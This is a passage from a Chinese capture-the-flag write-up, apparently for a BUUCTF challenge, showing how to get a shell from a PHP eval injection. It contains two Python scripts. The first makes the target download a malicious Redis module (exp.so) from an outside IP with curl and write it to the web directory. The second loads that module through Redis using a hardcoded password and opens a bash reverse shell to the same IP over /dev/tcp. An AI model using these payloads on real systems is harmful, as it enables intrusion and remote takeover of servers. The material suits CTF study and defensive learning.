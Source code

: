 因为file_put_contents没有被办，可以来写so文件

不过file_get_contents没有了,不过可以用curl来加载恶意的so文件

恶意so文件编写:https://github.com/n0b0dyCN/redis-rogue-server/tree/master/RedisModulesSDK

直接把exp.c编译为so即可

首先把恶意的so写到靶机的web目录下

```
import requests

url = "http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval($_POST[0]);"
headers = {"content-type": "application/x-www-form-urlencoded"}
pay = "http://47.93.248.221/exp.so"
payload = '''
      function Curl($url) {
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $url);
            curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, true );
            $result = curl_exec($ch);
            curl_close($ch);
            file_put_contents("exp.so",$result);
      }

      Curl("''' + pay + '''");
'''.strip()

data = {
    0: payload
}
r = requests.post(url, data, headers=headers).text
print(r)
```

然后加载so,反弹shell

```
import base64
import requests

url = "http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval(base64_decode($_POST[0]));"
payload = '''
        $redis = new Redis();
        $redis->connect('127.0.0.1',8888);
        $redis->auth('ye_w4nt_a_gir1fri3nd');
        $redis->rawCommand('module','load','/var/www/html/exp.so');
        $redis->rawCommand("system.exec","bash -c 'exec bash -i &>/dev/tcp/47.93.248.221/2333 <&1'");
'''
payload=base64.b64encode(payload.encode(encoding="utf-8"))
data = {
    0: payload
}
r = requests.post(url, data=data).text
print(r)
```
